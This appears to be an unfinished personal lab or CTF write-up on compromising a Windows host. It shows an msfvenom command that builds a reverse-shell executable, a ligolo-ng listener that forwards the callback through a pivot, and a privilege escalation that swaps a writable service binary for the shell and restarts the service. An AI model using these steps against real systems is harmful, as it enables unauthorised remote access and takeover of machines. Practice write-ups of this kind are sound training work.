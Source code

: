 ## Enumeration
- Setup reverse shell, transfer over and run
```shell
# Create reverse shell with MSFVenom
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.111.254 LPORT=5555 -f exe > revsh_5555.exe
# Rev shell pointed to the pivot machine, now need to forward that port on the pivot machine through the ligolo tunnel

# Setup listener on pivot machine via ligolo proxy
ligolo-ng>> listener_add --addr 0.0.0.0:5555 --to 127.0.0.1:5555 --tcp
# Then transfer and execute the 
```
- Upload winPEAS and run:
	- EHEHE FOUND A CUTE EXECUTABLE
	![[Pasted image 20250211153356.png]]
	- FOUND THE SERVICE
	![[Pasted image 20250211155259.png]]
## Privilege Escalation
- We have full access to C:\DevelopmentExecutables\auditTracker.exe and the folder its in
- Replace the auditTracker.exe with a reverse shell
- Restart the service:
	```powershell
	PS C:\Users\wario> sc.exe stop auditTracker
	PS C:\Users\wario> sc.exe start auditTracker
	```

# i stopped here again bc fu-